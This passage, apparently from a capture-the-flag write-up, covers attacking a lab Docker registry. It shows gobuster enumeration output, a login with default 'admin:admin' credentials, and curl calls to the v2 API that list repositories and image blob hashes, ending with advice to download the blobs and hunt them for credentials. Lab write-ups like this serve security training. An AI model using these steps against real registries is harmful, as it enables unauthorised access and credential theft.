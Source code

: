 Seems like we are dealing with a private docker registry. The files here seem to be from a default installation/ deploy.

`gobuster dir -u http://docker.registry.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50`
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://docker.registry.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/11 05:46:18 Starting gobuster in directory enumeration mode
===============================================================
/v2                   (Status: 301) [Size: 39] [--> /v2/]
===============================================================
2022/06/11 05:49:56 Finished
===============================================================
```
Gobuster output for the docker subdomain.


![](https://i.imgur.com/r3W2EFe.png)


Default admin credentials will get through.

After doing some research, v2 is related to the Docker Registry that we saw earlier. Its the api version. We can hit this url and grab the images hosted on there and sift through the blobs for potentially senstitive info.

The endpoints I hit were referenced from these two blogposts:

https://notsosecure.com/anatomy-of-a-hack-docker-registry 

https://blog.dixitaditya.com/exploiting-docker-registry

Exploring the endpoints:

`curl -u 'admin:admin' http://docker.registry.htb/v2/_catalog`
```
{"repositories":["bolt-image"]}
```
`curl -u 'admin:admin' http://docker.registry.htb/v2/bolt-image/tags/list`
```
{"name":"bolt-image","tags":["latest"]}
```
`curl -u 'admin:admin' http://docker.registry.htb/v2/bolt-image/manifests/latest | grep blobSum`
```
"blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"
"blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"
"blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"
"blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"
"blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"
"blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
"blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"
"blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
"blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
"blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
```
Each of these sha256:xxx are endpoints. Download them all and sniff for credentials or other sensitive info.
